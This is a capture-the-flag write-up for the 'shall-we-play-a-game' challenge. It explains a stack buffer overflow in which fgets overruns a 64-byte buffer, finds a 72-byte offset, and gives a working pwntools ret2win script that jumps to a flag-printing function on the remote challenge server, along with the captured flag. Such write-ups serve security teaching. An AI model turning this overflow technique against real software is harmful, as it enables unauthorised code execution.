




### shall-we-play-a-game

First lets check the file protections

```ascii
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Lets take a look at the decompiled code of the provided executable





We need to call the global_thermo_nuclear_war() as it prints the flag

We can see that the fourth input is assigned 64 bytes but fgets() is reading in 86 bytes

So we have buffer overflow here, lets find the offset using cyclic pattern



We find that offset is at 72 bytes

Lets craft a payload

```python
#!/usr/bin/env python3

from pwn import *

exe = './chal'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = 'gold.b01le.rs',4004

#p = process(exe)
p = remote(host,port)

padding = 72

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    elf.symbols['global_thermo_nuclear_war'],
)

p.sendlineafter(b'FALKEN','hello')
p.recv()
p.sendlineafter(b'TODAY?','good')
p.recv()
p.sendlineafter(b'73?','no')
p.recv()
p.sendlineafter(b'GAME?',payload)
p.interactive()
```

And we get the flag



**_flag : bctf{h0w\_@bo0ut_a_n1ce_g@m3_0f_ch3ss?\_ccb7a268f1324c84}_**
